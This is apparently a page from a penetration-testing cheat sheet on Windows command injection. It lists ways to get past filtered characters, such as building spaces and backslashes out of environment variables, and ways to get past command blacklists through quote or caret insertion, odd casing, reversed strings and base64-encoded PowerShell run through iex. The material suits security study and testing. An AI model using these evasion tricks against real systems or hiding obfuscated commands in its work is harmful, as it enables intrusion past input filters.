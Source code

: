 ## Filtered Character Bypass

| Code | Description |
| ----- | ----- |
| `Get-ChildItem Env:` | Can be used to view all environment variables - (PowerShell) |
| **Spaces** |
| `%09` | Using tabs instead of spaces |
| `%PROGRAMFILES:~10,-5%` | Will be replaced with a space - (CMD) |
| `$env:PROGRAMFILES[10]` | Will be replaced with a space - (PowerShell) |
| **Other Characters** |
| `%HOMEPATH:~0,-17%` | Will be replaced with `\` - (CMD) |
| `$env:HOMEPATH[0]` | Will be replaced with `\` - (PowerShell) |

---
## Blacklisted Command Bypass

| Code | Description |
| ----- | ----- |
| **Character Insertion** |
| `'` or `"` | Total must be even |
| `^` | Windows only (CMD) |
| **Case Manipulation** |
| `WhoAmi` | Simply send the character with odd cases |
| **Reversed Commands** |
| `"whoami"[-1..-20] -join ''` | Reverse a string |
| `iex "$('imaohw'[-1..-20] -join '')"` | Execute reversed command |
| **Encoded Commands** |
| `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))` | Encode a string with base64 |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` | Execute b64 encoded string |



